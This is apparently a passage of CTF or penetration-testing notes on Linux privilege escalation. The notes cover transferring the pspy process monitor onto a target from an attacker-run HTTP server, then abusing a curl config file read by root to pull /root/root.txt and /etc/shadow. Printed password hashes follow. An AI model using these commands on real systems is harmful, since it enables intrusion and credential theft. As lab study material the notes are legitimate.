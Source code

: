 	less /var/log/syslog

#### Method 3 - pspy

Download statically compiled binary locally:

	wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s

Check that the file is an executable:

	file pspy64s

Start Simple HTTP Server:

	python -m SimpleHTTPServer 80		// Python
	python3	-m http.server 80			// Python 3

Download to target system:

	curl 10.10.17.201/pspy64s -o pspy64s

Spy on processes:

```
./pspy64s -fc	// -f 	print file system events
				// -c	color
```

### Use curl to retrieve files from arbitrary locations

	curl file:///etc/passwd

```
lightdm:x:132:140:Light Display Manager:/var/lib/lightdm:/bin/false
kali:x:1000:1000:Kali,,,:/home/kali:/usr/bin/zsh
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

	echo 'url = "file:///root/root.txt"' > input 
	watch -n 1 cat report

`82c198ab6fc5365fdc6da2ee5c26064a`

```bash
echo 'url = "file:///etc/shadow"' > input 
watch -n 1 cat report
```

	root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999
	:7:::
	floris:$6$yl7KKyGaOhVExlCb$ONJceChbI7srpLlJ/AhCLgESU7E4gXexPVgsJMjvQ0hP.6fwslfwWmD15cuaYs9./Jin4e/4LURPgEBav4iv//:176
	73:0:99999:7:::

### Get root

	man curl
	
```
-K, --config <file>
Specify a text file to read curl arguments from. The command line arguments found in the text file will be used as if they were provided on the command line.
```
